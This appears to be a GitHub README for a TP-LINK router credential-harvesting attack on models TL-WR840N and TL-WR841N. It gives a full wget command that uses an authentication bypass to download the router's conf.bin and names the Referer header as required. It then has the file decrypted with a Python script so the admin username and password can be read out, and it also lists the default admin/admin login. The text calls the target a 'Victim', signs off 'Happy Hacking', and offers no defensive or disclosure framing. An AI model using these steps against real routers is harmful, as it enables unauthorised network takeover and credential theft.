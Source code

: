 # TP-LINK Routers Admin Account Password Harvesting Vulnerability.
This **Vulnerability** basically uses another [Vulnerability](https://www.exploit-db.com/exploits/44781) which is a **limited authentication bypass vulnerability** using which it downloads the configuration file of the Router.

This **configuration file(conf.bin)** is the **most sensitive piece of information** that a **Hacker** would love to have of its **Victim.**
But this configuration file is **Encrypted** by the Vendor (Essentially **TP-LINK**).

*Fortunately,* This configuration can be **Decrypted.** To Exploit this just follow the following guidelines:-

# The Game Show

## Getting The File

First of all you need to download the configuration file using the **Wget** utility using the following command:-
> wget -d --header="User-Agent: Mozilla/5.0 (Windows NT 6.0) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.97 Safari/537.11" --header="Referer: http://192.168.0.1/mainFrame.htm" --header="Accept-Encoding: compress, gzip" http://192.168.0.1/cgi/conf.bin

You can customize the headers by yourself also but just remember not to omit the **Referer** Header.

Now, As you got the configuration file, next step is to decrypt it.

## Decrypting the File
As to decrypt the file you will need the file given in this repository.
I got this Decrypting Script from another Github [Repository](https://github.com/sta-c0000/tpconf_bin_xml) 
**Thanks "sta-c0000"**

Use the following command to decrypt the conf.bin file:-
>python3 decrypt.py conf.bin conf.xml

You can change the last argument to change the filename as desired.
In this .xml file you will find all the configuration of the router.
To Quickly find the admin username and password,search admin within the file.
Then you will find the AdminName and AdminPwd tags.
And their values will be in the *val* variable.
Like This:-
>
      <AdminName val=Alexis />
      <AdminPwd val=$up3rS3cuRePA$$W0rd! />

**Note:**
You will not be able to open the .xml file in most .xml editors due to some header problems.
Simply Open the file using Nano,Vim,Notepad++,etc.
**Please Note that if you not find these tags in the .xml file then the Victim is using Default Credentials.**

**Which Are:-**
*user: admin*
*password: admin*

# Affected Devices
At this time it is not known that how many devices are Vulnerable To this technique.
But the devices which i tested on are:

- TL-WR840N
- TL-WR841N

**Some Other Routers of TP-LINK are also vulnerable of a similar kind of attack**

- WL-WA850RE

[Link To the Repository](https://gist.github.com/eacmen/)

Happy Hacking!!! 🤑
